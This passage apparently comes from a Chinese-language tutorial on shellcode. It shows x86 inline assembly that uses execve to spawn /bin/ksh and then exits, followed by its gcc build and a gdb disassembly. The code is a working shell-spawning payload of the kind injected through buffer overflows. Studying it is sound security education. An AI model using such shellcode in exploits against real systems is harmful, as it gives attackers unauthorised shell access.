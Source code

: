我们改进后的代码如下：

vi shellcodeasm.c

int main ()
{
    __asm__
    ("
        jmp    0x1f                     # 3 bytes
        popl   %esi                     # 1 byte
        movl   %esi,0x9(%esi)           # 3 bytes
        xorl   %eax,%eax                # 2 bytes
        movb   %eax,0x8(%esi)           # 3 bytes
        movl   %eax,0xd(%esi)           # 3 bytes
        movb   $0xb,%al                 # 2 bytes
        movl   %esi,%ebx                # 2 bytes
        leal   0x9(%esi),%ecx           # 3 bytes
        leal   0xd(%esi),%edx           # 3 bytes
        int    $0x80                    # 2 bytes
        xorl   %ebx,%ebx                # 2 bytes
        movl   %ebx,%eax                # 2 bytes
        inc    %eax                     # 1 bytes
        int    $0x80                    # 2 bytes
        call   -0x24                    # 5 bytes
        .string \"/bin/ksh\"            # 9 bytes
                                        # 48 bytes total
    ");
}

[scz@ /home/scz/src]> gcc -o shellcodeasm -g -ggdb shellcodeasm.c
[scz@ /home/scz/src]> gdb shellcodeasm
GNU gdb 4.17.0.11 with Linux support
This GDB was configured as "i386-redhat-linux"...
(gdb) disas main
Dump of assembler code for function main:
0x8048398 :       pushl  %ebp
0x8048399 :     movl   %esp,%ebp
0x804839b :     jmp    0x80483bc 
0x804839d :     popl   %esi
0x804839e :     movl   %esi,0x9(%esi)
0x80483a1 :     xorl   %eax,%eax
0x80483a3 :    movb   %al,0x8(%esi)
0x80483a6 :    movl   %eax,0xd(%esi)
0x80483a9 :    movb   $0xb,%al
0x80483ab :    movl   %esi,%ebx
0x80483ad :    leal   0x9(%esi),%ecx
0x80483b0 :    leal   0xd(%esi),%edx
0x80483b3 :    int    $0x80
0x80483b5 :    xorl   %ebx,%ebx
0x80483b7 :    movl   %ebx,%eax
0x80483b9 :    incl   %eax
0x80483ba :    int    $0x80
0x80483bc :    call   0x804839d 
0x80483c1 :    das
0x80483c2 :    boundl 0x6e(%ecx),%ebp
0x80483c5 :    das
0x80483c6 :    imull  $0x0,0x68(%ebx),%esi
0x80483ca :    leave
0x80483cb :    ret
End of assembler dump.
(gdb)
